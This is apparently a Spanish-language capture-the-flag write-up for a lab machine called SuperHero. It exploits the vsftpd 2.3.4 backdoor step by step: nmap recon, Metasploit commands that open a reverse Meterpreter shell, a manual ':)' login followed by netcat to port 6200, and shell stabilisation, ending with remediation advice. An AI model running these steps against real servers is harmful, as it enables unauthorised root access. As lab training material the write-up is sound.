




<h1 align="center">[Writeup] SuperHero - Reporte de Vulnerabilidad</h1>

**Fecha:** 27 de mayo de 2026

**Objetivo:** 172.17.0.2

**Vulnerabilidad:** vsftpd 2.3.4 - Backdoor Command Execution

**Nivel de Privilegios:** Root (Máximo)

**Plataforma**: WhoAmI-Labs.com

---


---
<h1 align="center">Descripción</h1>
Laboratorio pedagógico de Concept & Beginner (Nivel Medium). Diseñado para auditar vectores prácticos en entornos reales. El reto involucra técnicas de: SUPERHERO, requiriendo obtener acceso inicial y comprometer el sistema.

---

## 1. Fase de Reconocimiento

Se realizó un escaneo de puertos con `nmap`...
```bash
nmap -sV -sC -p- --min-rate 5000 172.17.0.2 -oN scan_superhero.txt
```

Resultado:
```bash
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-20 22:40 -0300
Nmap scan report for 172.17.0.2
Host is up (0.000016s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.3.4
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u5 (protocol 2.0)
| ssh-hostkey: 
|   3072 a8:2d:f2:2c:a5:e4:79:ce:cf:2f:5a:b7:a2:9a:48:85 (RSA)
|   256 c8:ad:13:a8:94:ec:9f:05:17:34:e2:08:c8:a9:92:fb (ECDSA)
|_  256 26:45:a5:c7:a9:f2:3f:d1:5e:9c:2f:78:3e:79:ef:11 (ED25519)
8080/tcp open  http    Apache httpd 2.4.66 ((Debian))
|_http-title: Liga de la Justicia - Hall de la Fama
|_http-server-header: Apache/2.4.66 (Debian)
|_http-open-proxy: Proxy might be redirecting requests
MAC Address: 72:56:28:69:7F:42 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.00 seconds
```

Se detectaron los siguientes puertos y sus versiones:

- **Puerto 21/tcp:** vsftpd 2.3.4 (Vulnerable)

- **Puerto 8080/tcp:** Apache httpd 2.4.66 (Web - Liga de la Justicia)

---

<h1 align="center">2. Análisis de Vulnerabilidad</h1>

El servicio **vsftpd en su versión 2.3.4** es conocido por contener una puerta trasera. Esta se activa al intentar un inicio de sesión con un nombre de usuario que incluya el símbolo `:)`. El sistema responde abriendo una shell con privilegios de root en el puerto **6200/tcp**.

---
<h1 align="center">3. Explotación</h1>
## 3.1. (Opción 1) Ejecución del Exploit en Metasploit

Una de las opciones para explotar esta vulnerabilidad es el entorno **Metasploit Framework (MSF)** con los siguientes comandos:

```bash
# Iniciar consola
msfconsole

# Seleccionar el módulo
use exploit/unix/ftp/vsftpd_234_backdoor

# Configurar el objetivo
set RHOSTS 172.17.0.2

# Configurar host local
set LHOST 172.17.0.1

#Configurar FETCH_SRVPORT (Para evitar conflictos de puertos)
set FETCH_SRVPORT 8888

# Ejecutar el ataque
exploit
```



**Nota técnica:** Durante la explotación, se identificó un conflicto en el puerto 8080 (usado por el servidor web del objetivo). Se recomienda cambiar el puerto que usa Metasploit para levantar su servidor HTTP  (por defecto corre en el 8080, igual que el servidor web de la web SuperHero).

## 3.2. Post-Explotación

Una vez obtenida la sesión de **Meterpreter**, se verificó la identidad y se extrajo la información sensible:
```bash
[*] Started reverse TCP handler on 172.17.0.1:4444 
[*] 172.17.0.2:21 - Running automatic check ("set AutoCheck false" to disable)
[*] 172.17.0.2:21 - FTP banner hints its vulnerable: 220 (vsFTPd 2.3.4)
[+] 172.17.0.2:21 - The target appears to be vulnerable. vsftpd 2.3.4 banner detected; backdoor may be present
[+] 172.17.0.2:21 - Backdoor has been spawned!
[*] Meterpreter session 1 opened (172.17.0.1:4444 -> 172.17.0.2:42508) at 2026-10-20 23:13:49 -0300

meterpreter > shell
Process 136 created.
Channel 1 created.
ls -la
total 2372
drwxrwxrwt 1 root root    4096 Oct 21 02:13 .
drwxr-xr-x 1 root root    4096 Oct 21 01:40 ..
-rwx------ 1 root root 1205508 Oct 21 02:13 KWGvknefGn
-rw-r--r-- 1 root root       2 Oct 21 01:40 supervisord.pid
-rwx------ 1 root root 1205508 Oct 21 02:04 yTlzknhFs
whoami; id
root
uid=0(root) gid=0(root) groups=0(root)
cd /root; ls -la
total 24
drwx------ 1 root root 4096 Feb  1  2026 .
drwxr-xr-x 1 root root 4096 Oct 21 01:40 ..
-rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
-rw-r--r-- 1 root root  209 Feb  1  2026 .wget-hsts
-rw------- 1 root root   41 Feb  1  2026 flag.txt
cat flag.txt
FLAG{5up3rh3r0_Pwn3d_By_V5ftpd_B4ckd00r}
```

- **Flag obtenida:** `FLAG{5up3rh3r0_Pwn3d_By_V5ftpd_B4ckd00r}`
- **Privilegios:** `root`.
---
## 3.3 (Opción 2) Ejecución Mediante Terminal (Shell)

Otra manera más sencilla de explotar la vulnerabilidad en **vsftpd 2.3.4** (registrada como **CVE-2011-2523**) es mediante la terminal de Linux simplemente conectandose al servidor ftp con el usuario: **usuario:)** (o cualquiera, mientras termine con **:)**) y password: **cualquiercosa**



Ahora, no es que la ejecución en si se haya quedado colgada si no que activo el backdoor de esta vulnerabilidad en el puerto 6200/tcp, por tanto solo basta con conectarnos al puerto escucha mediante:
```bash
nc 172.17.0.2 6200
```

Una vez conectado, verificamos si tenemos una manera de estabilizar la terminal, yo lo hago de esta forma, compruebo si existe python3, pero hay varias maneras, en este caso si había python3, así que los pasos fueron los siguiente:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

#CTRL + Z
stty raw -echo; fg
#Doble ENTER

#Por último
export TERM=xterm-256color; export SHELL=bash; stty rows 44 cols 180
```

![[Pasted image 20261020234710.png|700]]

- **Flag obtenida:** `FLAG{5up3rh3r0_Pwn3d_By_V5ftpd_B4ckd00r}`
- **Privilegios:** `root`.

Laboratorio realizado con éxito:


---
<h1 align="center">4. Recomendaciones de Seguridad</h1>

- **Actualización:** Cambiar la versión de vsftpd a una superior a la 2.3.4.
- **Firewall:** Bloquear el puerto 6200 y monitorear intentos de login con caracteres especiales.
